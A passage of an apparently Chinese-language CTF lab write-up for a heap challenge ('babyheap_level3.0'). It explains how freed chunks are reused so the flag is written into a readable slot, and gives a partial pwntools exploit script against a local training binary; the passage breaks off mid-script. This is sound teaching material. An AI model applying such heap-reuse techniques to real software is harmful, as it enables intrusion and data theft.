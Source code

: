 ```c ins={81-86} del={77, 88} collapse={1-23}
    puts("Unrecognized choice!");
  puts("### Goodbye!");
  return 0;
}
```

这题的问题就在于标绿部分，把 flag 写入到 `size_4` 前会先进行两次 `malloc`。所以我们应该先 `malloc` 出对应的两个块，然后 `free` 掉，这么做是为了令标绿部分的 `malloc` 分配空间到我们的数组中而不是别的地方，因为 `puts` 只能输出数组中的内容。之后再次调用 `malloc` 会从最近 `free` 掉的那个地址开始分配，如果我们想让 flag 出现在 idx 0 的话我们的 `free` 顺序应该是先 `free 0` 再 `free 1`，之后再调用 `read_flag` 就会把 `flag` 写入 idx 0，我们用 `puts` 输出 idx 0 的内容即可。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level3.0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"0", b"773"),
        (b"malloc", b"1", b"773"),
        (b"free", b"0", None),
        (b"free", b"1", None),
        (b"read_flag", None, None),
        (b"puts", b"0", None),
    ]


def execute_cmd(target, cmd, arg1=None, arg2=None):
    target.sendlineafter(b": ", cmd)
```